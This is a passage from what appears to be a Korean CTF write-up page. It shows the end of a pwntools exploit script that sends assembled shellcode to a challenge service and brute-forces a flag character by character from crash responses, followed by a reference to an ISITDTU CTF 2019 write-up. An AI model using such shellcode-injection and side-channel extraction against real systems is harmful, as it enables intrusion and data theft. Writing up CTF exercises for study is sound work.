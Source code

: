 </div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rax,0xdeadbeef</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;jnz&nbsp;go</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;jmp&nbsp;what</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'</span><span style="color:#63a35c">''</span>.<span style="color:#066de2">format</span>(i,&nbsp;ord(j))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;p.sendafter(<span style="color:#63a35c">':&nbsp;'</span>,&nbsp;asm(shellcode))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">try</span>:</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;p.recvuntil(<span style="color:#63a35c">"Seg"</span>,&nbsp;timeout<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0099cc">2</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;flag&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;j</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">print</span>&nbsp;flag</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;p.<span style="color:#066de2">close</span>()</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;break</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">except</span>:</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;p.<span style="color:#066de2">close</span>()</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;continue</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>
참고 : http://ipwn.kr/index.php/2019/07/01/isitdtu-ctf-2019-write-up/



## 3. Welcome_rev
